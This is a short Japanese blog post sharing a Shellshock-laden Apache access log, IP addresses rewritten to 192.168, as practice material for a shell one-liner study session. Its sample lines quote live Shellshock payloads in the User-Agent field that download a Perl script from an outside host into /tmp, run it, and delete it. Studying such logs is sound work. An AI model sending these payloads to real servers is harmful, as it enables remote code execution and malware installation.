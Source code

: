 ```yaml
---
Keywords: ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="/?post=05620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a>

今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。

<!--more-->

<a href="access.log_.shellshock.gz">/wp-content/uploads/2015/04/access.log_.shellshock.gz</a>

これが中身です。どんな問題が出るか予想しながらいじってみていただければと。

```bash
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] "GET /phppath/cgi_wrapper HTTP/1.1" 302 227 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\");'"
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] "GET /phppath/php HTTP/1.1" 302 219 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\");'"
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] "GET /phppath/cgi_wrapper HTTP/1.1" 302 227 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\");'"
```


ヤバイ・・・


寝る。
